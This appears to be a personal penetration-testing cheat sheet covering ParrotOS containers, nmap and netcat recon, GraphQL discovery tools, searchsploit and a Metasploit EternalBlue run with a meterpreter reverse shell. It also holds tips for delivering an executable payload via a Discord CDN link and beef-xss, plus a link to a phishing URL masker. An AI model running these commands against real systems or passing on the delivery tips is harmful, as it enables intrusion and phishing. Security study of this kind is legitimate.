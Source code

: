 # Security

## Cloud

Start a docker ParrotOS cloud container

```bash
docker run --name psec1 -ti parrot.run/security
docker start psec1
```

Return to an existing container

```bash
docker exec -ti psec1 bash
```

Other helpful commands

```bash
docker ps -a // list container
docker stop psec1 // stop container
docker rm psec1 // remove container
```

Available ParrotOS containers

```
- parrot.run/core
- parrot.run/security
- parrot.run/nmap (nmap, ncat, ndiff, dnsutils, netcat, telnet)
- parrot.run/metasploit (metasploit, postgresql, nmap)
- parrot.run/set (set)
- parrot.run/beef (beef-xss)
- parrot.run/bettercap (bettercap)
- parrot.run/sqlmap (sqlmap)
```

## Recon

### Ping

```bash
ping <ip>

# Pinging [ip] with 32 bytes of data:
# Reply from <ip>: bytes=32 time=25ms TTL=(128 for windows, 64 for windows)
```

### Nmap

```bash
# -sC default scripts
# -sV probe open ports
# -Pn skip host discovery
# -oA output in three major formats
# -sn ping scan

nmap -sC -sV <ip>

```

### NetCat

```bash
# nc <options> <port>
nc -lnvp 443 # start netcat listener on port 443
```

### GraphQL

#### Cheat Sheet

[graphql vulnerabilities](https://0xn3va.gitbook.io/cheat-sheets/web-application/graphql-vulnerabilities)

#### GraphQLmap

Provides options for gathering schema, fuzzing, and injection
Basic usage

```bash
git clone https://github.com/swisskyrepo/GraphQLmap
python setup.py install
graphqlmap -u <target>
graphqlmap > dump_new
```

#### Clairvoyance

Gathers GraphQL schema from wordlist using discovery methodology on apis with introspection disabled

```bash
pip install clairvoyance
clairvoyance <target>
```

```bash
# -o schema.json  -- file to output to
# -w wordlist.txt -- wordlist file (optional)
# --profile slow -- set speed to slow or fast for rate limiters
# --progress -- reports progress back to user
clairvoyance <target> -o schema.json -w wordlist.txt --profile slow --progress
```

Load the output json into [graphql schema viewer](https://ivangoncharov.github.io/graphql-voyager)

## Exploit

### Searchsploit

Installation

```bash
sudo git clone https://gitlab.com/exploit-database/exploitdb /opt/exploitdb
sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit
```

Use

```bash
searchsploit eternal
```

### Metasploit

```bash
# example eternal blue
msfconsole-start
search eternalblue
options
set rhosts 10.10.10.40
set payload windows/x64/meterpreter/reverse_tcp
use exploit/windows/smb/ms17_010_eternalblue
set lhost 10.10.14.10
set lport 4321
sysinfo
```

### Running a manual exploit

```bash
sudo git clone https://github.com/:user/:package.git
cd package
pip install -r requirements.txt
```


### SQL Injection

#### Damn Small SQLi Scanner

```bash
sudo git clone https://github.com/stamparm/DSSS.git
cd DSSS
python3 dsss.py -u "<target>"
```


## General Tips

### Easily deploy an exe

- Upload to discord
- Copy cdn path
- Use with beef-xss or anywhere else to deliver payload

### Online tools

[request catcher](https://requestcatcher.com)
[web hooks](https://webhook.site)
[graphql schema viewer](https://ivangoncharov.github.io/graphql-voyager)

### Resources

[hacktricks](book.hacktricks.xyz)
[intruder payloads](https://github.com/1N3/IntruderPayloads)
[url masker](https://github.com/jaykali/maskphish)
[mgeeky pentest tools](https://github.com/mgeeky/Penetration-Testing-Tools)
[openvas vulnerability scanner](https://github.com/greenbone/openvas-scanner)
[swisskyrepo payloads](https://github.com/swisskyrepo/PayloadsAllTheThings)
[ports list](https://github.com/maraisr/ports-list)
[clairvoyance graphql](https://github.com/nikitastupin/clairvoyance)
[graphql map](https://github.com/swisskyrepo/GraphQLmap)
[cheat sheet](https://0xn3va.gitbook.io/cheat-sheets/)
[exploitdb](https://gitlab.com/exploit-database/exploitdb)